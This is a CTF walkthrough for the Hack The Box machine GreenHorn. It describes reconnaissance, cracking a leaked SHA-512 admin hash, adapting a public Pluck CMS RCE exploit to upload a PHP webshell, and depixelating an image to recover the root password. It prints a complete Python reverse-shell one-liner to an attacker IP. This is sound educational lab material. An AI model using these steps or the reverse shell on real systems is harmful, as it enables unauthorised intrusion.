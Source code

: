 ```yaml
---
title: CTF Walkthrough for HTB Machine GreenHorn
date: 2024-10-02 00:00:00 +0300
categories: [Walkthrough, CTF]
tags: [HTB, Writeup, Depixelisation]   
image:
  path: /assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/box-greenhorn.webp
---
```


## Introduction
Greetings everyone, in this walkthrough, we will talk about GreenHorn a machine on the Hack The Box platform. This walkthrough is meant to catch the flag and demonstrate how a penetration tester will approach this machine in a real-world assessment.
### Machine Description
Name: GreenHorn<br>
Difficulty: Easy<br>
Operating System: Linux<br>
Machine link: [GreenHorn HTB](https://app.hackthebox.com/machines/GreenHorn)<br>
### Tools used
1) Nmap<br>
2) ffuf<br>
3) Depix<br>
4) Hashcat<br>

## Reconnaisance
We will start by enumerating open ports on our target using Nmap SYN packet scan
```bash 
sudo nmap -sS -n 10.10.11.25 -oN ports-dis.nmap 
```
[Port Scan](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/ports-dis.png)

We now enumerate the service's names and versions using Nmap's common scripts service discovery scan.
```bash
sudo nmap -sV -sC  -n 10.10.11.25 -p 22,80,3000 -oN services-dis.nmap
```
[Service Scan](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/services-scan.png)

From the service scan above, we can identify the target's domain. we can add to our /etc/hosts file
```bash
echo '10.10.11.25   greenhorn.htb' | sudo tee -a  /etc/hosts 
```
[Host Config](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/hosts-config.png)

From our scan result, We can identify two web applications run on the target. Let's visit the first one running on port 80. Here we can see a greeting page welcoming new web developers. 
[First Browse](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/first-browse.png)

From the greeting page, we can see a link that brings us to a login form. On that login form, we can see the version number of something called Pluck. A quick Google search shows us that Pluck is a CMS. 
 [CMS Version](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/cms-version.png)
 
## Exploitation

Since the CMS version is displayed on the page we can use searchsploit to see if that specific version number has any public exploit available. We can see an RCE vulnerability is available for that specific version number.
[Exploit Search](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/exploit-finding.png)

When we examine the exploit script we can see that the RCE is possible only after login but at this point in our assessment we do have a password. Let's skip this for the moment.
[Exploit Examine](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/exploit-examine.png)

We have reached a limit in the web application running on port 80 because we don't have credentials. Let's visit the second web application uncovered during the service scan running on port 3000. We can see that our target runs a Gitlab instance. 
[Second Browse](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/second-browse.png)

Gitlab instances are known to contain source code that may expose credentials. When we navigate to public repositories, we can see a repository named like of the web application running on port 80. This might surely be its source code.
[Public Repos](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/public-repos.png)

Since we are hunting for credentials, Let's examine how the login.php responsible functions. Credentials are usually identified by searching for something containing the keyword 'pass'. Looking for this keyword in the search bar, we can see online a certain file named pass.php is imported from the data/settings/ directory.
[Code Examination](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/code-examine.png)

Upon browsing to this file we discover that a variable named $ww containing a long string is indeed imported into the login.php file.
[Password Discovery](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/password-dis.png)

To understand the use of this variable we can go to the login.php file and search for its name. We will see that this variable is used on 79 that it's being compared with another variable named $pass. The line just above i.e. line 78 let us know that a password comparison is taking place.
[](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/password-dis-2.png)

At this point, we have identified the variable containing the password inputted by the user but we don't know if this password is processed as cleartext after being hashed or encrypted. For this reason, we can search for all the occurrences of the variable $pass. Reading through the login.php file more deeply we can see on line 56  that the password stored in the POST parameter count1 is first hash using sha-512 before being stored in the $pass variable. With this finding, we can conclude that the value stored in $ww above is also the sha-512 hash of the admin's password. 
[]()

We can copy this password and brute force it using Hashcat mode 1700.
[Cracking Hash](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/hashcat.png)

Now that we have a password, Let's go back to the web application running the vulnerable CMS and modify the exploit for our target.
We will modify line 19 by replacing the value of the count1 dictionary key with that of the cracked password. Also, we will replace localhost with the actual domain of our target. Notice that when we access the login.php page from our browser we access it directly from the web root directory. For this reason, we need to remove the 'pluck' directory from every link in the payload. It should look like the image below.
[Exploit Modification](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/exploit-modification.png)

Line 21 tells us that the exploit requires a zip file. This is surely the PHP code to be executed on the target after successful exploitation. So let's create a simple PHP webshell and compress it into an archive.
[Crafting Payload](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/payload-craft.png)

If we read through the payload again we will notice that the payload uploads our webshell zip file with a default name i.e. mirabbas.zip. Note this target is being accessed by many other hackers so we may want to change this default name to our custom name to avoid overwriting someone's file who used this name. To do this we should change all the occurrences of mirabbas with nicefile.
[](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/exploit-modification-1.png)

Since the payload I used here is a basic web shell we will have to make a few modifications at the end of the script.
[](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/exploit-modification-2.png)

Now that our script is ready, we can run it to upload our web shell and use that web shell to execute commands on the target.<br>
*Some people may decide to upload a PHP reverse shell and catch a shell directly after running the exploit POC*
[](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/exploit-exec.png)

Great, we have obtained a foothold on our target. We can leverage this simple web shell to obtain a tty reverse shell by using the Python3 payload below. Don't forget to start your listener at the specified port before executing it in on the target.
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.50",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); import pty; pty.spawn("sh")'
```

Never forget that users are usually prone to use the same password across many services. So, let's try to authenticate as the user junior using the same password we cracked above.
[](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/user-auth-1.png)
We can see that we had successfully authenticated as a junior, we can use this access to read the flag and continue our enumeration process.

## Post Exploitation

In our user's home directory we can see an interesting file, let's transfer it to our attack host for further analysis.
[](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/user-file-trans-1.png)

[](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/user-file-trans-2.png)

When we open the pdf file we see something that resembles a command prompt when a user uses the sudo command but at the place of the password, we see a blurry image. I opened the image in a word processing application and I saved it locally to my system. 

I searched for how to recover blur images and I came across the tool [Depix](https://github.com/spipm/Depix). We can download this tool and following the installation guide on the tool's README.md page try to recover the blur image.
[](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/depix-image.png)

The tool outputs a new image called output.png in the same working directory. This image is not completely clear but the characters are distinguishable.
[Recovered Image](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/output.png)

We then use that password to log in as root through SSH. With this access, we can read the root's flag.
[Root Access](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/root-access.png)

## Conclusion

Congratulations! In this walkthrough, you have exploited a vulnerability in Pluck CMS after discovering the password of the admin user in the Public Gitea repository. Finally, you depixelise an image to reveal the root user password. This machine was designed to demonstrate how poor update practices and keeping sensitive files publicly accessible can seriously impact an organisation's security posture. Thanks for following up on this walkthrough.

